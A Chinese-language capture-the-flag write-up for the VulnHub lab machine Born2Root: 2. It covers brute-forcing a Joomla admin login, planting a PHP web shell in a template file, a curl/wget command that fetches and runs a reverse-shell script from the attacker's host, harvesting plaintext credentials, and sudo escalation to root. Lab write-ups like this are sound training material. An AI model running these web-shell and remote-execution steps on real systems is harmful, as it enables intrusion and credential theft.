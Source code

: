 # Born2Root: 2

2024-11-7 https://www.vulnhub.com/entry/born2root-2,291/

difficulty: Not easy

## IP

192.168.5.40

## Scan

```
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
111/tcp   open  rpcbind
34835/tcp open  unknown
```

扫描 80 端口 发现 http://192.168.5.40/joomla/ 是 joomla 系统，发现一个疑似用户名 tim，http://192.168.5.40/joomla/README.txt 版本为 3.6 查找相关 exp 后没发现可以利用的。

找到 joomla 的登录页面 http://192.168.5.40/joomla/administrator/ 默认的登录名是 admin，使用 cewl 收集系统单词信息作为密码字典，进行爆破，最终得到登陆用户和密码：

```
cewl -d 5 http://192.168.5.40/joomla/ -w pass.txt

python joomla-brute.py -u http://192.168.5.40/joomla -w pass.txt -usr admin
admin:travel
```

使用凭据 admin:travel 登陆到系统，在顶部菜单中，Extensions -> Templates -> Templates 选中一个主题，编辑它的 error.php 页面，加入 php 一句话木马：`system($_GET['cmd']);`，然后点击保存。

通过下面的语句测试一句话命令执行成功：

```
curl -s http://192.168.5.40/joomla/templates/beez3/error.php?cmd=id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

获得 web shell 的反弹连接：

```
curl -G --data-urlencode 'cmd=wget -q -O - http://192.168.5.3/5.3/8888.sh|bash' http://192.168.5.40/joomla/templates/beez3/error.php
```

先读取 joomla 的配置文件,发现数据库连接密码：

```
/var/www/html/joomla/configuration.php

public $host = 'localhost';
public $user = 'joomla';
public $password = 'redhat';
public $db = 'joomla';
public $dbprefix = 'v3rlo_';
public $live_site = '';

public $secret = 'qognJLTotftnguG7';
```

/home 目录下发现 tim 用户，尝试用 travel、redhat 和 qognJLTotftnguG7 这两个密码进行测试，发现不对。

进入数据库继续查看：

```
mysql -u joomla -h localhost -p
密码输入: redhat
```

但是在数据库中也没发现体现密码的数据表，这条路行不通。

继续寻找其他的提权点，经过搜索排除 sys lib 等目录后(或者 lin peas 进行枚举)，只发现了一个 可读的 py 脚本里面有 tim 的密码信息：

```
find / -readable -type f 2>/dev/null | grep -v '/sys\|/proc\|/lib\|/usr\|/var/www\|/run\|/boot\|/bin\|/sbin\|/var\|/etc'

www-data@born2root:/opt/scripts$ cat fileshare.py
#!/usr/bin/env python

import sys, paramiko

if len(sys.argv) < 5:
    print "args missing"
    sys.exit(1)

hostname = "localhost"
password = "lulzlol"
source = "/var/www/html/joomla"
dest = "/tmp/backup/joomla"

username = "tim"
port = 22

try:
    t = paramiko.Transport((hostname, port))
    t.connect(username=username, password=password)
    sftp = paramiko.SFTPClient.from_transport(t)
    sftp.get(source, dest)

finally:
    t.close()
```

发现 tim 的 ssh 密码为 lulzlol 使用此密码切换到 tim 用户，sudo -l 发现了有用全部权限，直接提权到 root：

```
(ALL : ALL) ALL

tim@born2root:~$ sudo /bin/bash
root@born2root:/home/tim# id
uid=0(root) gid=0(root) groups=0(root)
root@born2root:/home/tim# cd /root
root@born2root:~# ls
flag.txt
root@born2root:~# cat flag.txt

             .andAHHAbnn.
           .aAHHHAAUUAAHHHAn.
          dHP^~"        "~^THb.
    .   .AHF                YHA.   .
    |  .AHHb.              .dHHA.  |
    |  HHAUAAHAbn      adAHAAUAHA  |
    I  HF~"_____        ____ ]HHH  I
   HHI HAPK""~^YUHb  dAHHHHHHHHHH IHH
   HHI HHHD> .andHH  HHUUP^~YHHHH IHH
   YUI ]HHP     "~Y  P~"     THH[ IUP
    "  `HK                   ]HH'  "
        THAn.  .d.aAAn.b.  .dHHP
        ]HHHHAAUP" ~~ "YUAAHHHH[
        `HHP^~"  .annn.  "~^YHH'
         YHb    ~" "" "~    dHF
          "YAb..abdHHbndbndAP"
           THHAAb.  .adAHHF
            "UHHHHHHHHHHU"
              ]HHUUHHHHHH[
            .adHHb "HHHHHbn.
     ..andAAHHHHHHb.AHHHHHHHAAbnn..
.ndAAHHHHHHUUHHHHHHHHHHUP^~"~^YUHHHAAbn.
  "~^YUHHP"   "~^YUHHUP"        "^YUP^"
       ""         "~~"


W00t w00t ! If you are reading this text  then Congratulations !!

I hope you liked the second episode of 'Born2root' if you liked it please ping me in Twitter @h4d3sw0rm .

If you want to try more boxes like this created by me , try this new sweet lab called 'Wizard-Labs' which is a platform which hosts many boot2root machines to improve your pentesting skillset https://labs.wizard-security.net !
Until we meet again :-)
```
